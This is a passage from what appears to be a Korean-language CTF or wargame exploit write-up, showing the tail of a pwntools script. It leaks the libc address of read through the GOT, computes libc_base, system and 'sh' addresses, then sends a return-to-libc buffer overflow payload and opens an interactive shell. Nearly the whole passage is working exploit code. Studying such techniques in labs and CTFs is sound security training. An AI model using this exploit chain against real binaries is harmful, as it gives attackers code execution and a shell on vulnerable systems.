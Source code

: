 ``` python
   write(1, read_got, 4) 실행
3. 이 때 출력되는 새로운 데이터가 read_got의 실제 libc 주소 4바이트임.
4. 이것을 p.recvn(4)으로 받는 것임.

read@got를 이용하여 libc_base 구하기
system과 sh의 실제 주소도 구하기.
'''
read = u32(p.recvn(4))
libc_base = read - read_offset
system = libc_base + system_offset
sh = libc_base + sh_offset

print(hex(libc_base))
print(hex(system))

payload = b'A' * 0x48
payload += p32(system)
payload += p32(pop_ret)
payload += p32(sh)

p.send(payload)
p.recvuntil(b'A' * 0x40)

p.interactive()
```